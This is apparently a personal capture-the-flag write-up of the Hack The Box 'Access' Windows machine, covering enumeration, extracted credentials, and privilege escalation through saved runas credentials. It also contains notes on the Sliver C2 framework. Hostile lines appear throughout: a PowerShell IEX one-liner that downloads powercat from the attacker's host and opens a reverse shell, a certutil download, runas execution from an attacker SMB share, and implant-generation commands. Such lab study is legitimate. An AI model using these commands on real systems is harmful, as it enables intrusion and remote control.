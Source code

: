 # Access Notes

## Data 

IP:  10.10.10.98
OS: Window server 2008 x64 
Hostname: Access
Machine Purpose: 
Services: 21,23,80 - LON-MC6! - no udp!
Service Languages: 
Users:  users.txt
Credentials: passwords.txt
```
access4u@security is password for 'Access Control.zip'
"security" - 4Cc3ssC0ntr0ller
john - john@megacorp.com
security@accesscontrolsystems.com
```



## Objectives


yawcam
2 directory exist
2diffs.png



## Solution Inventory Map



### Todo 


### Done

https://support.microsoft.com/en-us/topic/ms09-042-vulnerability-in-telnet-could-allow-remote-code-execution-7d71e702-0539-73ab-dbbe-2ac5502c8420 - no info, but it more a hint for our only point of connect, if I had waited I would seen it ask for credentials

dumpingftp.png
https://en.wikipedia.org/wiki/Microsoft_Access
Install [mbdtools](https://www.kali.org/tools/mdbtools/)
```bash
# mdbtools for mdb databse
# pstutils for the .pst file 
sudo apt install mdbtools pstutils
```

JET4.png
```bash
mdb-tables backup.mdb > all-tables
```

```bash
mdb-hexdump backup.mdb
```
afavouriteword.png
creds.png
3333s.png

access4u@security is password for 'Access Control.zip'

passwordaccountandversions.png

https://linux.die.net/man/1/readpst
```bash
readpst Access\ Control.pst
cat Access\ Control.mbox
```

John Carter is mentioned in USERINFO.c
johncarter.png

https://vulners.com/nessus/SMB_NT_MS09-042.NASL - trick a user or SSRF with telnet 

security-4Cc3ssC0ntr0ller.png

yawcam.png
https://packetstormsecurity.com/files/145770/Yawcam-0.6.0-Directory-Traversal.html

```powershell
%USER%.yawcam

type .yawcam\ver.dat
0.6.2
http://www.yawcam.com/ver.dat
http://home.bitcom.se/yawcam_files/ver.dat


```
https://www.yawcam.com/

systeminfo.png

Sad Netdogs and Netcats
netdogssaddogs.png

All executables are blocked by group policy

ZKTeco.png
```powershell
# Access denied - icacls you fool 
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.16/powercat.ps1');powercat -c 10.10.14.16 -p 8000 -i C:\ZKTeco\ZKAccess3.5"
# Icacls just because
icacls C:\ZKTeco\ZKAccess3.5
```

yawcam settings file 176.26.141.32:8080 is referenced
no172conn.png
```powershell
# Lead to nothing
certutil.exe -urlcache -split -f http://176.26.141.32:8080 wwwroot
```



https://learn.microsoft.com/en-us/previous-versions/windows/desktop/policy/group-policy-objects

WTF is LON-MC6 router?
yawcam is security camera - faq mentions port forwarding - but no binaries are aloud

alotsofperms.png
[exploitdb](https://www.exploit-db.com/exploits/40323) - we can basically modify because we can append, read and write data. I am happy I found this without searching for exploitdb. 

```
icalcs C:\ZKTeco\ZKAccess3.5
```

icaclzkaccessexes.png


But we cant modify dlls or write dll unless we can find phantom dlls that get loaded [hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)
dllhijackingtypes.png

WTF is LON-MC6 

telnet clients group

```powershell
# a backup of the primary Bootsect.dos created by old Windows OSs
C:\BOOTSECT.BAK
# 
C:\ZKTeco\ZKAccess3.5

But I had not found how Administrator would run in scheduled tasks, I would either need find a phantom dll by copying binaries and running them with procmon. 
```


https://www.trendmicro.com/vinfo/us/security/news/vulnerabilities-and-exploits/patched-microsoft-access-mdb-leaker-cve-2019-1463-exposes-sensitive-data-in-database-files

I decided that I need to comb the system like a dentist.
```powershell
# No Password in:
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```


tasklistforntsystem.png

Unattended password trolling
pantherunatttendxmltroll.png

bingobangobongo.png

For some reason possible group policy I could not run this from a remote share. 
```powershell
# Start SMB share
# No password as we dont have powershell
impacket-smbserver Share $(pwd) -smb2support

cmdkey /list
runas /savecred /user:ACCESS\Administrator "\\10.10.14.16\Share\GIGANTIC_SCREEN.exe"
runas /savecred /user:ACCESS\Administrator "\\10.10.14.16\Share\RIGID_NANOPARTICLE.exe"
runas /savecred /user:ACCESS\Administrator

```
Because we can connect back we `runas`
hashcapturewithresponder.png

- Networking of yawcam
- Services
- cmd.exe is still running as Administrator

There is no [LGPO.exe](https://learn.microsoft.com/en-us/archive/blogs/secguide/lgpo-exe-local-group-policy-object-utility-v1-0) on Windows 2008

```powershell
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server"
netsh firewall set portopening protocol = TCP port = 3389 name = "Remote Desktop Protocol" mode = ENABLE Ok
```

Considering the another troll of the cmdkey - [Runas](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)

I reran a nmap scan after discovering more ports. This machine is very trolly
ehports.png

I decided that Ghost dll and runas with cmdkey /list maybe it wanted to really specificly only run Access.exe as in the GPO that I cant access becase reason given previously and there is a whitelist. Then I could the transfer of Access.exe to work. 

revengineertears.png```
```
%PATH% 
```



But I had not found how Administrator would run in scheduled tasks, I would either need find a phantom dll by copying binaries and running them with procmon.  But it requires login https://www.zkteco.com/en/ZKAccess_3/ZKAccess3.5, which a rabbit hole indicator.

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#hosts-file bottom up reading

https://learn.microsoft.com/en-us/windows-server/identity/software-restriction-policies/administer-software-restriction-policies

Tried to add the 176.26.141.32 to the arp table, there is not curl or wget
notcoolenough.png

It is also not up
notup.png

And there is no yawcam process
noyawcamprocess.png

There was also a no cmd.exe from system today...
therewassystemcmdbutnoanymore.png

I went to forum for a hint - but it is just use runas, which I knew so I not doing to downgrade this.

whynotsliver.png

Now knowing that msfvenom works.. But sliver works from C:\temp and I am sure I tried that already...

cat.png

## Beyond Root

I feel in love with sliver from the silly names of implants to clarity and speed.
[Sliver Wiki](https://github.com/BishopFox/sliver/wiki/)
```go
sliver
// View all implants
implants
// Generate Beacons and Sessions
generate
// Choice one C2 endpoint using:
// --wg is wireguard 
--mtls --wg --http --dns
// Session are sessions opsec unsafe
generate --mtls domain.com --os windows --save 
// Beacons are asychronous - more opsec way they sleep and check 
generate beacon --mtls 10.10.10.10:6969 --arch amd64 --os windows -save /path/to/directory
// Regenerate
regenerate
// listeners
// Do not accept interfaces as arguemnts like metasploit
mtls
wg
https
http
dns
// Jonbs to view and manage listners
jobs
// Interact with sessions
use sessionID 
```

https://freshman.tech/snippets/go/cross-compile-go-programs/

https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/

